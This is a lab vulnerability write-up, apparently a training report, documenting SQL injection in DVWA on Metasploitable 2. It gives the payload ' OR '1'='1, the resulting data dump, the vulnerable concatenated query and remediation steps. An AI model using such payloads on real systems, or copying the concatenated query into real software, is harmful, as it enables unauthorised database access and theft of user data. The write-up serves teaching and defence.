

# SQL Injection

**Severity:** Critical
**CVSS v3.1:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**CWE:** CWE-89 — Improper Neutralization of Special Elements used in an SQL Command
**OWASP Top 10:** A03:2021 — Injection

---

## Description
The application builds SQL queries by concatenating user input directly into the query string. By supplying SQL syntax as input, an attacker can alter the query logic and read arbitrary data from the database.

## Environment
- **Target:** Metasploitable 2 / DVWA (Security: Low)
- **Module:** DVWA > SQL Injection
- **Tool:** Browser

## Proof of Concept

**Normal input** — `User ID: 1` returns a single record:
```
ID: 1
First name: admin
Surname: admin
```

**Malicious input** — the payload below makes the `WHERE` clause always true, returning every row in the table:

**Payload:**
```
' OR '1'='1
```

**Result:**
The application returned all user records:
```
admin
Gordon Brown
Hack Me
Pablo Picasso
Bob Smith
```



## Business Impact
- Full disclosure of the database contents (usernames, password hashes, PII)
- Authentication bypass
- Data modification or deletion (with stacked/UNION queries)
- In many real deployments, escalation to remote code execution via database features

## Root Cause
User input is concatenated directly into the SQL statement:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
There is no separation between code and data.

## Remediation
- Use **prepared statements / parameterized queries** for all database access.
- Apply input validation as defense in depth.
- Enforce least-privilege database accounts (the web app should not use a DBA account).
- Do not surface raw database errors to users.

**References:**
- OWASP: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
